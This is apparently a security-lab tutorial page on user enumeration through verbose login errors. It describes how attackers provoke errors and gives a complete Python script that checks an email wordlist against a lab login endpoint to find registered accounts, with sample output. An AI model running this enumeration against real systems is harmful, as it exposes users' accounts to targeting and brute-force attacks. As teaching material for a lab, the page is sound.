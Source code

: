 # Enumerating Users via Verbose Errors
## Understanding Verbose Errors

Imagine you're a detective with a knack for spotting clues that others might overlook. In the world of web development, verbose errors are like unintentional whispers of a system, revealing secrets meant to be kept hidden. These detailed error messages are invaluable during the debugging process, helping developers understand exactly what went wrong. However, just like an overheard conversation might reveal too much, these verbose errors can unintentionally expose sensitive data to those who know how to listen.

![image](https://github.com/user-attachments/assets/dcfc66b9-a3c7-42c1-91dd-d6fae9a42ff0)


Verbose errors can turn into a goldmine of information, providing insights such as:

+ **Internal Paths:** Like a map leading to hidden treasure, these reveal the file paths and directory structures of the application server which might contain configuration files or secret keys that aren't visible to a normal user.
+ **Database Details:** Offering a sneak peek into the database, these errors might spill secrets like table names and column details.
+ **User Information:** Sometimes, these errors can even hint at usernames or other personal data, providing clues that are crucial for further investigation.

### Inducing Verbose Errors
Attackers induce verbose errors as a way to force the application to reveal its secrets. Below are some common techniques used to provoke these errors:

+ **Invalid Login Attempts:** This is like knocking on every door to see which one will open. By intentionally entering incorrect usernames or passwords, attackers can trigger error messages that help distinguish between valid and invalid usernames. For example, entering a username that doesn’t exist might trigger a different error message than entering one that does, revealing which usernames are active.

+ **SQL Injection:** This technique involves slipping malicious SQL commands into entry fields, hoping the system will stumble and reveal information about its database structure. For example, placing a single quote ( ') in a login field might cause the database to throw an error, inadvertently exposing details about its schema.

+ **File Inclusion/Path Traversal:** By manipulating file paths, attackers can attempt to access restricted files, coaxing the system into errors that reveal internal paths. For example, using directory traversal sequences like ../../ could lead to errors that disclose restricted file paths.

+ **Form Manipulation:** Tweaking form fields or parameters can trick the application into displaying errors that disclose backend logic or sensitive user information. For example, altering hidden form fields to trigger validation errors might reveal insights into the expected data format or structure.

+ **Application Fuzzing:** Sending unexpected inputs to various parts of the application to see how it reacts can help identify weak points. For example, tools like Burp Suite Intruder are used to automate the process, bombarding the application with varied payloads to see which ones provoke informative errors.

### The Role of Enumeration and Brute Forcing
When it comes to breaching authentication, enumeration and brute forcing often go hand in hand:

+ **User Enumeration:** Discovering valid usernames sets the stage, reducing the guesswork in subsequent brute-force attacks.
+ **Exploiting Verbose Errors:** The insights gained from these errors can illuminate aspects like password policies and account lockout mechanisms, paving the way for more effective brute-force strategies.
In summary, verbose errors are like breadcrumbs leading attackers deeper into the system, providing them with the insights needed to tailor their strategies and potentially compromise security in ways that could go undetected until it’s too late.

### Enumeration in Authentication Forms
In this HackerOne [report](https://hackerone.com/reports/1166054)  , the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose_login/] (http://enum.thm/labs/verbose_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with **"Email does not exist."** indicating that the email has not been registered yet.

|![image](https://github.com/user-attachments/assets/9ac2b060-2871-495f-b7c4-778c877f5feb)
Email does not exist error message|

However, if the email is already registered, the website will respond with an "Invalid password" error message, indicating that the email exists in the database but the password is incorrect.

![image](https://github.com/user-attachments/assets/6550d52c-669c-4838-9865-cf217dc75c28)
Invalid password error message

### Automation
Below is a Python script that will check for valid emails in the target web app. Save the code below as script.py.

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
Click here for a breakdown of the script.
We can use a common list of emails from this repository.

Usernames list from github

Once you've downloaded the payload list, use the script on the AttackBox or your own machine to check for valid email addresses.

Note: As a reminder, we strongly advise using the AttackBox for this task.

script.py
user@tryhackme $ python3 script.py usernames_gmail.com.txt
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[VALID] xxxxxx@gmail.com
```

or use the script from: 

